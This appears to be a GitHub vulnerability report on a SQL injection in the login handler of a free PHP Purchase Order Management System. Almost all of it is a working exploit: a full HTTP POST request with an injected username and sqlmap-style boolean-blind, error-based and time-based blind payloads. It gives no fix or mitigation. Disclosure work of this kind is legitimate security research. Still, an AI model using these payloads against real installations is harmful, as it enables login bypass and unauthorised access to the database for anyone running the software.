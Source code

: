 ## Purchase Order Management System has SQL injection vulnerability
vendor: https://www.sourcecodester.com/php/14935/purchase-order-management-system-using-php-free-source-code.html
Vulnerability file: /purchase_order/classes/Login.php
![image](https://user-images.githubusercontent.com/80438059/164885270-15b0d1fc-3adf-4162-8afb-886f999224eb.png)
Vulnerability location: /purchase_order/classes/Login.php?f=login //username is Injection point
```
POST /purchase_order/classes/Login.php?f=login HTTP/1.1
Host: localhost
Content-Length: 44
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/purchase_order/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fipkbpl70m5ol078ohb2d50ais
Connection: close

username=admin'and 1=1 --+&password=admin123
```
[+]Payload: 
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 7306=7306 AND 'KUHr'='KUHr&password=admin123

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 6871 FROM(SELECT COUNT(*),CONCAT(0x7171717a71,(SELECT (ELT(6871=6871,1))),0x7178766271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'cGqF'='cGqF&password=admin123

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 9249 FROM (SELECT(SLEEP(5)))tmUV) AND 'cjHA'='cjHA&password=admin123
---
```

![image](https://user-images.githubusercontent.com/80438059/164885401-545b57bb-4b17-427a-a79c-27eb50cdec61.png)

